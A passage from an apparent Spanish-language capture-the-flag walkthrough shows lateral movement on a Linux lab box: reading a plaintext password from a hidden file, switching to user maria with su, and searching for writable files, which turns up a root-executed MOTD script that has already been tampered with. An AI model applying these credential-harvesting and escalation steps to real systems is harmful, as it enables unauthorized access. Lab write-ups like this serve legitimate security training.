 Tenemos las credenciales del usuario maria:
```bash
cat .mipass 
maria:asientiendesmejor
```

Migramos al usuario **maria**
```bash
su maria # ( asientiendesmejor )
```
###### Usuario `[ Maria ]`:
Para maria tenemos que encontrar un archivo que tenga capacidad de escritura:
```bash
find / -type f -user maria -writable 2>/dev/null
```

Tenemos el siguiente que permtenece a maria:
```bash
/etc/update-motd.d/00-header
```

Si miramos su contenido:
```bash
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#       mos
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi
printf "SORPRESA\n"
#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
printf "\n\nFELIZ HACK\n\n"
```
